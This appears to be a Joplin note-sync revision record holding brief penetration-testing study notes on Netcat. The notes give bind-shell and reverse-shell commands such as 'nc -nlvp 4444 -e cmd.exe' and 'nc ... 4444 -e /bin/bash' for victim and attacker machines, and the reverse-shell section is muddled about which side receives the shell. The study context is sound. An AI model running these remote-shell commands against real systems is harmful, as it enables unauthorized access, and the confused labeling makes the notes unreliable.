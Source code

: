id: 795adea0753d432490bf95adfe4cf0cf
parent_id: 
item_type: 1
item_id: 5fbdf13e52c24efbad665b0fec331d05
item_updated_time: 1642143172430
title_diff: "[{\"diffs\":[[1,\"Netcat\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6}]"
body_diff: "[{\"diffs\":[[1,\"<ins>Netcat</ins>\\\n\\\n1\\\\. Bind Shell\\\n\\\nOn Victim client\\\n\\\n> nc -nlvp 4444 -e cmd.exe\\\n\\\nOn Kali attacker\\\n\\\n> nc -nv 10.11.0.22 4444\\\n\\\n2\\\\. Reverse Bind Shell\\\n\\\nOn the Victim client:\\\n\\\n> nc -nlvp 4444\\\n\\\nOn Kali: Obtain IP of victim-\\\n\\\n> ip address show eth0 | grep inet \\\\[Linux\\\\]\\\n> ipconfig \\\\[Windows\\\n\\\nConnect\\\n\\\n> nc -nv 10.11.0.22 4444 -e /bin/bash\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":333}]"
metadata_diff: {"new":{"id":"5fbdf13e52c24efbad665b0fec331d05","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":821071392222,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-14T06:52:53.614Z
created_time: 2022-01-14T06:52:53.614Z
type_: 13